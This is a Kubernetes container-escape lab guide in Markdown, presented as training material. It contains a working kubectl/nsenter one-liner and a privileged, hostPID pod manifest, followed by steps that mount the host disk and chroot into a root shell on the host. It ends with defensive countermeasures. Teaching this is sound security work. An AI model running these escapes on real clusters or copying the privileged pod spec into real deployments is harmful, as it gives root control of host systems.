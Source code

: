 # 🧪 Container Escape in Kubernetes (for Educational Purposes Only)

## ⚠️ Disclaimer

**This lab is for training and awareness only!**  
Never attempt container escapes in unauthorized environments.

---

## 🎯 Objective

Understand how misconfigured containers can allow attackers to escape into the host system.

---

## 🧰 Prerequisites

- Kubernetes cluster (preferably local, like Minikube or kind)
- `kubectl` configured
- A pod is allowed to run in privileged mode (for simulation)

---

## Lab 1: One-Liner Kubernetes Container Escape

Duffie Cooley and Ian Coldwater pulled the following Kubernetes one-liner together the first time they met:

### Step 1: Run the one-liner

Just run this:

```bash
kubectl run r00t --restart=Never \
  -ti --rm --image lol \
  --overrides '{"spec":{"hostPID": true, \
  "containers":[{"name":"1","image":"alpine",\
  "command":["nsenter","--mount=/proc/1/ns/mnt","--",\
  "/bin/bash"],"stdin": true,"tty":true,\
  "securityContext":{"privileged":true}}]}}'
```

### Step 2: Check for root in the process namespace

```bash
r00t# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),...
```

### Step 3: Check for kernel PIDs to verify we’re in the root namespace

```bash
r00t# ps faux 
```

---

## 🔹 Lab 2: Deploy a Privileged Pod

Deploy a highly privileged pod:

```yaml
# privileged-escape-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: escape-demo
spec:
  hostPID: true
  containers:
  - name: attacker
    image: busybox
    command: ["sleep", "3600"]
    securityContext:
      privileged: true
```

```bash
kubectl apply -f privileged-escape-pod.yaml
```

✅ Pod runs with `hostPID` and `privileged` mode — dangerous in production!

---

## 🔹 Lab 3: Inspect Host Processes from Inside the Pod

```bash
kubectl exec -it escape-demo -- sh
```

Inside the container:

```bash
ps aux
```

✅ **Expected:** You see host system processes.

---

## 🔹 Lab 4: Access the Host Filesystem

Still inside the container:

```bash
ls /host
```

(May fail if `/host` is not mounted — so let's try mounting it.)

Mount the host root filesystem:

```bash
mkdir /mnt
mount /dev/sda1 /mnt
ls /mnt
```

✅ Gain access to the host filesystem.

---

## 🔹 Lab 5: Spawn a Host Shell

Inside the container (dangerous):

```bash
chroot /mnt /bin/sh
```

✅ **You are now running as root on the host** from inside the container.

---

## 🔹 Lab 6: Defensive Countermeasures

- **Never** allow `privileged: true` unless absolutely necessary.
- **Do not** enable `hostPID`, `hostNetwork`, or `hostIPC` unless required.
- Use **PodSecurityAdmission** with `restricted` level.
- Enforce **AppArmor**, **Seccomp**, and **readOnlyRootFilesystem**.
- Regularly audit pods for excessive privileges.

---

## 🔹 Lab 7: Clean Up

```bash
kubectl delete pod escape-demo
```

---

## ✅ Wrap-Up

- ✅ Demonstrated how container misconfiguration can lead to host escape
- ✅ Understood the power of `privileged` and `hostPID`
- ✅ Learned prevention strategies for real-world defense

---

